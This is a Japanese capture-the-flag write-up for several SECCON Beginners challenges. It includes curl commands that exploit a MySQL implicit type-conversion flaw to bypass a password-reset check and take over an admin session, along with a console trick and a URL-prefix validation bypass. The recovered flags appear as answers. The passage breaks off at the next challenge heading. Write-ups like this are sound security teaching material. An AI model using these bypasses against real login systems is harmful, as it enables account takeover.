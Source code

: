 ### login4b (420pt / 102 solves)

> Are you admin?

ウェブページの動作を確認する。ログイン、新規登録、パスワードリセットができそうだ。  
ソースコードを確認する。一番目立つのが`TODO`の多さだろう。ここを重点的に調べると、パスワードリセット機能で実際にはリセットされず、トークンの検証に成功するとログイン状態にできてしまう事がわかる。しかしながらトークンにはuuidv4が含まれているため総当たりは無理である。

ここで`validateResetTokenByUsername`関数のSQLクエリに注目する。ここで`token`を数値として渡した場合、比較のためにMySQLは`reset_token`の値を文字列から数値へ変換しようとする。このとき文字列の先頭から数字が続く部分だけが数値として解釈されるためタイムスタンプのみが比較される。よってタイムスタンプを数値として送信することで検証をバイパスできそうだ。

<details><summary>問題コード</summary></details>

よって下記のコマンドを何回か実行することでフラグを獲得できる。

```bash
$ curl -X POST http://login4b.challenges.beginners.seccon.jp/api/reset-request \
  -H 'Content-Type: application/json' -d '{"username": "admin"}' ; \
  TIMESTAMP=$(node -e 'console.log(Math.floor(Date.now() / 1000))') ; \
  curl -X POST http://login4b.challenges.beginners.seccon.jp/api/reset-password \
  -H 'Content-Type: application/json' -c cookie.txt \
  -d '{"username": "admin", "token": '$TIMESTAMP', "newPassword": "password"}'
{"success":true,"message":"Reset token has been generated. Please contact the administrator for the token."}{"success":true,"message":"The function to update the password is not implemented, so I will set you the admin's session"}%

$ curl http://login4b.challenges.beginners.seccon.jp/api/get_flag -b cookie.txt
{"flag":"ctf4b{y0u_c4n_byp455_my5q1_imp1ici7_7yp3_c457}"}%
```

## misc

### kingyo_sukui (100pt / 644 solves)

> scooping!

金魚すくいができる。ウェブページのソースコードを見てみると`script.js`で`FlagGame`クラスが作成され、それの`flag`からフラグを取得できそう。

デベロッパーツールのConsoleで次を実行するとフラグ獲得。

```js
a=new FlagGame();a.flag
```

`ctf4b{n47uma7ur1}`

### url-checker (100pt / 606 solves)

> 有効なURLを作れますか？

`urlparse`で得られる`hostname`が`example.com`から始まればフラグを得られる。  
よって`http://example.coma`と入力するとフラグ獲得。

`ctf4b{574r75w17h_50m371m35_n07_53cur37}`

### url-checker2 (100pt / 524 solves)
